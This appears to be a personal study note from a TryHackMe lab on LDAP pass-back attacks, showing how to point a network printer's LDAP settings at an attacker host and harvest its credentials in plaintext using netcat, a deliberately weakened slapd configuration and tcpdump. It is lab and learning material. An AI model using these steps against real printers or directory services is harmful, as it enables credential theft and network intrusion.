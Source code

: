 # Passback Attacks

## LDAP

- Imagine we have a printer in the network. In the example on tryhackme we have access to the setting page. It has a login page so we can alter the Server IP and put ours instead  
![login page](../.res/2022-07-26-10-44-46.png)  
- `nc -lvp 389`
- We get a connection back when sending the form  
![netcat](../.res/2022-07-26-10-46-12.png)  
- However as mentioned in the room:  
"The `supportedCapabilitiesresponse` tells us we have a problem. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext."

- `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
- `sudo dpkg-reconfigure -p low slapd` to configure the LDAP server
- We then have to make a file `olcSaslSecProps.ldif`

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

- `sudo tcpdump -SX -i eth0 tcp port 389` (we need to replace eth0 with the appropriate interface)
- And we should get the password, just like in our example from tryhackme:  
![](../.res/2022-07-26-16-52-21.png)

## Resources

{% embed url="https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/" %} A Pen Tester’s Guide to Printer Hacking {% endembed %}
{% embed url="https://tryhackme.com/room/breachingad" %} Breaching AD - TryHackMe{% endembed %}

